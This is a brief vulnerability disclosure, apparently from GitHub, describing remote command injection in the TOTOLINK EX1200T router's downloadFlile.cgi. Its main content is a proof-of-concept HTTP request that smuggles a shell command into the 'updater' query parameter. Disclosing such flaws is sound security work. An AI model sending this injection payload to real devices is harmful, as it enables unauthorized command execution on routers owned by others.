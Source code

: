 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the file `downloadFlile.cgi`, we can control the`QUERY_STRING` to attack.

![image-20211022171239731](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211022171239731.png)

## PoC

```
GET /cgi-bin/downloadFlile.cgi?updater=;ps>/web_cste/down;echo HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
```

![image-20211022170401841](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211022170401841.png)